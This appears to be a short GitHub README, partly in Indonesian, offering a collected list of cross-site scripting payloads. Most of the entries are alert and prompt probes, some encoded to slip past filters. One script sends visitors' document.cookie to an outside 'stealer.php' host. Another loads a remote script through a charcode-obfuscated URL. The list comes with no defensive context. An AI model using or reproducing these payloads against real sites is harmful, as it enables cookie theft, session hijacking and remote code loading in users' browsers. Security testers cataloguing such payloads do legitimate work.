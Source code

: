 
<h1>#########</h1>
payloadXSS
If this bring benefit for you, Send me dua :)

PAYLOAD XSS 
PAYLOAD INI DIDAPATKAN DARI BERBAGAI SUMBER YANG DITEMUKAN OLEH PENULIS
-----------------------------------------------------------------------
 
 javascri%0Dpt:alert/**/(1)
 <svg onload=alert(document.domain)>
abc"><svg+onload=confirm(document.domain)>
abc"><svg+onload=confirm(document.domain)>
<script>alert(1)</script>
<script>alert("xss bug input search by zhirobyte")</script>
"><img src=x onerror=prompt(document.cookie)>

<script type="text/javascript">
document.location='https://zhirobyte.000webhostapp.com/stealer.php?c='+document.cookie;
</script>

<script type="text/javascript">
<img src=x onerror=$.getScript(String.fromCharCode(47,47,120,111,114,46,99,99))>
</script>

javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie
